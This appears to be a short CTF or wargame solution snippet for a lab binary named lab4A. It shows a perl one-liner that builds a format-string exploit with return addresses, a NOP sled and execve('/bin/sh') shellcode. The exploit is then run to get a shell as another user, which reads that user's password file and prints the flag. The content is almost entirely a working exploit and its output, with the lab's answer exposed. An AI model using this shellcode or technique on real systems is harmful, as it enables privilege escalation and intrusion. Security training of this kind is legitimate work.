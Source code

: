 ```shell
perl -e 'print "A" . "\xac\xf6\xff\xbf" . "\xae\xf6\xff\xbf" . "\x90"x100 . "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" . "%63678x" .  "%14\$hn" . "%50879x" . "%15\$hn"' > exploit
lab4A@warzone:/tmp$ fixenv /levels/lab04/lab4A `cat exploit`
$ whoami
lab4end
$ cat /home/lab4A/.pass
cat: /home/lab4A/.pass: Permission denied
$ cat /home/lab4end/.pass
1t_w4s_ju5t_4_w4rn1ng
$ 
```